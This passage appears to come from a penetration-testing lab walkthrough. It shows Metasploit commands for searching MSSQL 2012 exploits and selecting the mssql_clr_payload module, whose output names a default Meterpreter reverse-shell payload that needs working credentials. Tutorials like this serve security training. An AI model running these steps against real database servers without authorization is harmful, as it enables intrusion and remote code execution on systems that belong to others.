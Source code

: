 #### Step 3: Metasploit Exploit Hunt
Time to fire up Metasploit and hunt for some MSSQL exploits! This is where the real fun begins:

```bash
# Launch Metasploit
msfconsole

# Search for MSSQL 2012 exploits
search MSSQL 2012
```

**Results:**
```
msf6 > search MSSQL 2012

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/windows/mssql/mssql_clr_payload              1999-01-01       excellent  Yes    Microsoft SQL Server CLR Stored Procedure Payload Execution
   1  exploit/windows/mssql/mssql_payload                  2000-01-01       excellent  No     Microsoft SQL Server Database Command Execution
   2  post/windows/manage/mssql_local_auth_bypass                           normal     No     Windows Manage Local Microsoft SQL Server Authorization Bypass


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/mssql/mssql_clr_payload
```

🔍 **Excellent!** We found three MSSQL-related modules. The first one looks particularly promising - `mssql_clr_payload` with an "excellent" rank! CLR (Common Language Runtime) exploits are often very reliable on SQL Server.

#### Step 4: Understanding Our Exploit
Let's examine this CLR exploit more closely before using it:

```bash
# Select the exploit (usually index 0)
use 0

# Get information about the exploit
info
```

**Module Information:**
```
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

Description:
  This module executes an arbitrary native payload on a Microsoft SQL 
  server by loading a custom SQL CLR Assembly into the target SQL 
  installation, and creating a new procedure which calls directly to the 
  custom CLR procedure and calling it directly with a base64-encoded payload.
  
  The module requires working credentials in order to connect directly to the 
  MSSQL Server.
  
  This method requires the user to have sufficient privileges to install a custom 
  SQL CLR DLL, and invoke the custom stored procedure that comes with it.
  
  This exploit does not leave any binaries on disk.
```